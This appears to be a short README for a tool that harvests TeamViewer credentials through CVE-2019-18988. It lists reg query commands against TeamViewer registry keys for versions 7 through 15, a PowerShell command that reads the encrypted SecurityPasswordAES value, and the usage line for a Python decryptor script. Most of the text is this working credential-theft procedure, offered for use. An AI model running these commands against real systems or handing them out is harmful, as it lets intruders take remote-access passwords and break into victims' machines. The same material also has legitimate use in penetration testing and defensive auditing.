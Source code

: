 TeamViewer version that may be vulnerable to CVE-2019-18988 can have credentials harvested from the registry by searching in one of the following registries
```
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version8
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version9
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version10
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version11
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version12
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version13
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version14
reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version15
```
To get the encrypted string
```
(get-itemproperty -path <idenitfied_registry_path>).SecurityPasswordAES
```
Then decrypt the string. The output will be printed line by line, this output does not need formatting, simple copy them and paste as an argument for use with the script

Example Usage
```
python3 tv_pw_decryptor.py "copy and paste (get-itemproperty -path <idenitfied_registry_path>).SecurityPasswordAES output"
```







